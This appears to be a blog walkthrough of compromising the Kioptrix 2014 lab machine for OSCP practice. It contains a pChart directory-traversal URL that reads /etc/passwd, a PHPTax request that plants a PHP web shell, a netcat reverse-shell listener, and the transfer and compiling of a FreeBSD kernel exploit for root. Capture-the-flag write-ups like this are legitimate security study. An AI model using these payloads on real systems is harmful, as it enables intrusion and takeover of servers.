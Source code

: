 ```yaml
---
layout: post
title: " Kioptrix - 2014"
date: 2020-08-12
ctf: true
excerpt: "Walkthrough for Kioptrix 2014 on Vulnhub"
tags: [OSCP, pChart 2.1.3, PHPTax, FreeBSD 9.0 kernel exploit]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-2014-5,62/) 2014 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix 2014 netdiscover](/assets/img/KioptrixLevel20141.png)

Next I ran **threader3000** to enumerate the ports and let it complete it's suggested nmap scan

![Kioptrix 2014 threader3000 nmap](/assets/img/KioptrixLevel20142.png)

It appears we have two websites open on ports 80 and 8080, let's take a look at both. Let's start with the one on port 80 first.

![Kioptrix 2014 port 80 website](/assets/img/KioptrixLevel20143.png)

This appears to just be the default Apache webpage on older versions of Apache. Let's look at port 8080 next.

![Kioptrix 2014 Port 8080 website](/assets/img/KioptrixLevel20144.png)

I attempted to enumerate the site and gobuster was receiving a numerous amount of errors due to too many requests to both websites, so I decided to look at the source code of the sites, starting with the site on port 80 first. This is where I came across a comment that pointed to a potential directory.

![Kioptrix 2014 port 80 source code](/assets/img/KioptrixLevel20145.png)

I navigated to **/pChart2.1.3/index.php** and the page below appeared.

![Kioptrix 2014 pChart 2.1.3](/assets/img/KioptrixLevel20146.png)

This looked like it rendered various chart types. A quick search for pChart 2.1.3 exploits led me to this article on [exploit-db](https://www.exploit-db.com/exploits/31173). After reviewing the exploit, it appears that we can use it to display data in a file. Let's **runhttp://[machine ip]/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd** and see what happens.

![Kioptrix 2014 /etc/passwd](/assets/img/KioptrixLevel20147.png)

We are able to view /etc/passwd and uncover that this is running FreeBSD. We know we were not able to get into the website on port 8080, so let's view the apache.conf file with this exploit. A quick Google search turns up [this](https://www.freebsd.org/doc/handbook/network-apache.html) documentation from the FreeBSD website - Apache's default configuration file is found at **/usr/local/etc/apache2x/httpd.conf**, where the x is the version number. With the version in nmap listed as 2.2 earlier, I entered the following **http://[[machine ip]]/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2fusr/local/etc/apache22/httpd.conf**. This pulled up the main Apache configuration file as shown below:

![Kioptrix 2014 Apache configuration](/assets/img/KioptrixLevel20148.png)

At the bottom of the configuration file is the configuration for the website on port 8080. It appears we can access it using a **Mozilla4 browser** user agent.

![Kioptrix 2014 Apache Configuration User Agent](/assets/img/KioptrixLevel20149.png)

Next, I installed [User-Agent Switcher and Manager](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/) in Firefox which allows you to switch user agents. I then switched my user agent to **Mozilla/4.0** and clicked on **Apply** (active window).

![Kioptrix 2014 User Agent](/assets/img/KioptrixLevel201410.png)

Next, I navigated to **http://[machine ip]:8080** and I was now able to access this directory. It contains a folder named **phptax**

![Kioptrix 2014 port 8080 website](/assets/img/KioptrixLevel201411.png)

Let's take a look at this site. It appears it is some sort of tax preparation software.

![Kioptrix 2014 PHPTax](/assets/img/KioptrixLevel201412.png)

Let's see if there are any known exploits for this software. I ran **searchsploit phptax** from my attacker PC and 3 results came up.

![Kioptrix 2014 searchsploit](/assets/img/KioptrixLevel201413.png)

I tried all 3 of these exploits and unfortunately was not able to get any of them to work. However, I took a look at the source code of these 3 exploits (this can be done with searchsploit -x [exploit #]). When I ran **searchsploit -x 25849**, I noticed something interesting even though it did not work when I ran it normally.

![Kioptrix 2014 25849 exploit](/assets/img/KioptrixLevel201414.png)

It appears that this creates a php file named **rce.php**. I ran this by typing in **http://[machine ip]:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E";** I didn't get any errors, but I wasn't sure where it saved rce.php to. Poking around it appears that by looking at the **view** portions of the images shows a **/data/pdf** directory I navigated there and it looks like there was some cleanup that hadn't been done from testing on this box initially.

![Kioptrix 2014 /phptax/data/pdf directory](/assets/img/KioptrixLevel201415.png)

unfortunately, rce.php was not here. I moved up to the parent directory. There it is!

![Kioptrix 2014 rce.php location](/assets/img/KioptrixLevel201416.png)

Let's run **http://[machine ip]:8080/phptax/data/rce.php?cmd=id** and see what happens.

![Kioptrix 2014 command injection](/assets/img/KioptrixLevel201417.png)

Great, now we can perform command injection. Let's open up a netcat listener on our attacker pc with **nc -nvlp 4444**.

![Kioptrix 2014 nc listener](/assets/img/KioptrixLevel201418.png)

I tried various [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and the Perl one worked (after I [url encoded](https://www.urlencoder.org/) it). Once encoded, paste this command after the **rce.php?cmd=** portion and press enter. You should now have a reverse shell.

![Kioptrix 2014 reverse shell](/assets/img/KioptrixLevel201419.png)

Let's run **uname -a**, we can see this is running FreeBSD 9.0

![Kioptrix 2014 uname -a](/assets/img/KioptrixLevel201420.png)

In another tab on our attacker pc, let's run **searchsploit FreeBSD 9.0**. 

![Kioptrix 2014 searchsploit freebsd 9.0](/assets/img/KioptrixLevel201421.png)

Let's copy the first one listed to our current folder with **searchsploit -m 28718**.

![Kioptrix 2014 28718.c](/assets/img/KioptrixLevel201422.png)

Let's go back to our foothold on the victim computer and see if gcc is present to compile this program.

![Kioptrix 2014 which gcc](/assets/img/KioptrixLevel201423.png)

It is present on our victim. Now we need to get the exploit over to the victim computer. Unfortunately, wget is not installed. Fortunately, we can copy this over with netcat, which is present on our victim computer.

![Kioptrix 2014 wget nc](/assets/img/KioptrixLevel201424.png)

On our **attacker** pc, let's run **nc -lp 4567 < 28718.c**

![Kioptrix 2014 nc send file](/assets/img/KioptrixLevel201425.png)

Next, on our **victim** pc, let's run **nc [attacker ip] 4567 > 28718.c**. 

![Kioptrix 2014 nc receive file](/assets/img/KioptrixLevel201426.png)

After a few seconds, terminate netcat on the attacker pc with CTRL+C. Go back to the attacker pc and run **gcc -o 28718 28718.c**

![Kioptrix 2014 gcc compile](/assets/img/KioptrixLevel201427.png)

Now, run the exploit with **./28718** and run **whoami**. We are now root!

![Kioptrix 2014 run exploit](/assets/img/KioptrixLevel201428.png)

Now, let's run **cd /root** and **ls -al**. You will see a congrats.txt file in there, so run **cat congrats.txt** to finish this box!

![Kioptrix 2014 root access](/assets/img/KioptrixLevel201429.png)




